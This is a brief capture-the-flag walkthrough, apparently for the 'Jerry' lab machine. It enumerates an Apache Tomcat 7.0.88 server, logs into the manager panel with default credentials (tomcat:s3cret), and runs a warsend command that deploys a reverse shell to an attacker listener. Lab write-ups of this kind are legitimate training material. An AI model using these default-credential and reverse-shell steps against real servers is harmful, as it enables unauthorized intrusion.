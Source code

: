 # Jerry

## NMAP

* Nmap result [[NMAP]]

```console
PORT STATE SERVICE REASON VERSION
8080/tcp open http syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

## Searchsploit

* `searchsploit Tomcat 7.0.88`

```text
------------------------------------------------------------------------------------------------ ---------------------------------

Exploit Title | Path

------------------------------------------------------------------------------------------------ ---------------------------------

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | jsp/webapps/42966.py

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | windows/webapps/42953.txt

------------------------------------------------------------------------------------------------ ---------------------------------
```

* `Not Vulnerable to CVE-2017-12617`

## Tomcat

* Running Default creds to access the /manage/html endpoint from [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)
* `tomcat:s3cret`

## Shell

* Using [Warsend]([https://github.com/thewhiteh4t/warsend](https://github.com/thewhiteh4t/warsend)) and the above credentials we can get a shell back

```bash
./warsend.sh 10.10.10.10 9001 10.10.10.1 8080 tomcat s3cret revshell
```

![shell](./images/jerry-shell.png)